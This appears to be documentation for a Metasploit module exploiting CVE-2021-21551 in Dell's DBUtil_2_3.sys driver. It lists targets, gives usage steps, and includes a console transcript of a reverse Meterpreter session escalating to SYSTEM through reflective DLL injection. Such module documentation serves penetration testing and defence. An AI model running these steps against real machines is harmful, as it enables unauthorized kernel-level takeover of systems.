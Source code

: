 ## Vulnerable Application
The DBUtil_2_3.sys driver distributed by Dell exposes an unprotected IOCTL interface that can be abused by an attacker
read and write kernel-mode memory.

### Supported Targets

* Windows 7 SP0 x64
* Windows 7 SP1 x64
* Windows 8.1 x64
* Windows 10 x64 v1607 - 21H1 (builds 14393 - 19043)
* Windows Server 2016 x64
* Windows Server 2019 x64

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use exploit/windows/local/cve_2021_21551_dbutil_memmove`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell.

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (200262 bytes) to 192.168.159.79
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.79:57013) at 2021-05-12 16:10:10 -0400

meterpreter > sysinfo
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-RTCRBEV\Alice Liddle
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > run exploit/windows/local/cve_2021_21551_dbutil_memmove

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad to host the DLL...
[+] Process 5212 launched.
[*] Reflectively injecting the DLL into 5212...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.159.79
[*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.79:57015) at 2021-05-12 16:12:43 -0400
[*] Session 3 created in the background.
meterpreter > sessions 3
[*] Backgrounding session 2...
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
